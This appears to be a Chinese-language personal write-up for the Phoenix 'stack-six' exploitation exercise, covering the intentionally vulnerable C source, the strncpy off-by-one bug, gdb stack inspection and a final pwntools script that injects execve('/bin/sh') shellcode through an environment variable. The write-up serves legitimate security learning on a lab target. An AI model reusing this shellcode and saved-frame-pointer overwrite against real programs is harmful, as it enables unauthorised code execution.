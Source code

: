 ```yaml
---
title: "[pwn笔记3]stack-six(phoenix)"
urlname: "[pwn笔记3]"
tags: [stack, pwn]
date: April 30, 2023 10:11 PM
---
```


## 听说把这段写进~/.gdbinit里面会让栈的情况更加真实（在调试的时候）

（参考[https://n1ght-w0lf.github.io/binary exploitation/stack-six/](https://n1ght-w0lf.github.io/binary%20exploitation/stack-six/)）

```bash
unset env LINES
unset env COLUMNS
set env _ /opt/phoenix/amd64/stack-six
```

## 然后这是本题源码

```c
/*
 * phoenix/stack-six, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * Why do fungi have to pay double bus fares? Because they take up too
 * mushroom.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

## 理论

其中greet函数有两点错误：

- strncpy函数不会自动在末尾添加\0，而strdup是根据\0来判断结尾的

- strncpy的起始地址是buffer + GREET的长度，但复制长度确是maxSize，导致了末尾有个跟GREET一样长的区域可以溢出（好像减了1）。

调试一下发现，覆盖不到返回地址，但是可以覆盖到压进栈里的rbp的最后两位。

众所周知（不知道的看这个<https://zhuanlan.zhihu.com/p/27339191>），进入函数时会执行：

```nasm
call xxx
;相当于
;push $+1
;jmp xxx
push rbp
mov rbp, rsp
sub rsp, xxx
```

而函数返回时执行的

```nasm
leave
ret
```

相当于

```nasm
mov rsp, rbp
pop rbp
pop rip
```

当我们把greet函数栈里面存着的（前）rbp改为了x。

那么`*x`就会变成main函数的栈底，`*x+8`就会变成main函数的返回地址。

## 理论存在，实践开始

gdb调试一下，能改的范围在：0x7fffffffe500~0x7fffffffe5ff

用这个命令看看这个范围里都有什么东西

```
x/32xg 0x00007fffffffe500
```

顺便确定一下我们输入的东西在哪。（注意不在栈的范围的东西不能要了（存疑），所以我们搜环境变量）

```
(gdb) grep ExploitEducation=
[+] Searching 'ExploitEducation=' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffeee5 - 0x7fffffffef1c  →   "ExploitEducation=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
```

去掉开头，确定我们输入的范围

```
>>> hex(0xeee5+len("ExploitEducation="))
'0xeef6'
>>> hex(0xeee5+126)
'0xef63'
```

回到之前看的范围（好像这样写顺序不太对，不管了）

`0x7fffffffe5c8`里正好是`0x00007fffffffeef6`，你说巧不巧

```python
from pwn import *

shell = ssh("user", "localhost", password="user", port=2222)
shellcode = b'\x90'*20
shellcode += b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
shellcode += b"A"*(126-len(shellcode))+b'\xc0'

sh = shell.run("/opt/phoenix/amd64/stack-six", env={"ExploitEducation": shellcode})
print(sh.recvline())
sh.interactive()
```

好了。

![结果](../images/[pwn笔记3]%2073a412be24d94419b5e23f937cfdf3af/2023-05-01-22-22-48-image.png)
